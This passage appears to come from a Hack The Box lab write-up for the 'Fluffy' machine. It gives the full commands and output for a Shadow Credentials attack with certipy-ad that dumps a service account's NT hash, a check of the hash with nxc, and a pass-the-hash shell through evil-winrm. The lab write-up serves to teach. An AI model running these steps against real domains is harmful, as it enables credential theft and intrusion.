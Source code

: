 I decided to use `certipy-ad` instead of `pywhisker` as I find `certipy-ad` easier to use than `pywhisker`.  
`certipy-ad` used user `p.agila` to dump the NTLM hash for the `winrm_svc` service account using a Shadow Credentials attack.

```
fcoomans@kali:~/htb/fluffy$ certipy-ad shadow -u p.agila -p prometheusx-303 -dc-ip 10.10.11.69 -account winrm_svc auto
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'f252b48f-056b-b2f2-7c81-bc3640bdf9db'
[*] Adding Key Credential with device ID 'f252b48f-056b-b2f2-7c81-bc3640bdf9db' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID 'f252b48f-056b-b2f2-7c81-bc3640bdf9db' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```

`nxc` confirmed that the hash was valid.

```
fcoomans@kali:~/htb/fluffy$ nxc smb fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\winrm_svc:33bd09dcd697600edf6b3a7af4875767
```

`evil-winrm` was then used to connect to the server with the `winrm_svc` service account and its NTLM hash.  This known as **Pass-the-Hash** (PtH).  PtH allow the attacker to use the NTLM hash instead of the cleartext password to authenticate to the target.

```
fcoomans@kali:~/htb/fluffy$ evil-winrm -i dc01.fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami
fluffy\winrm_svc
```

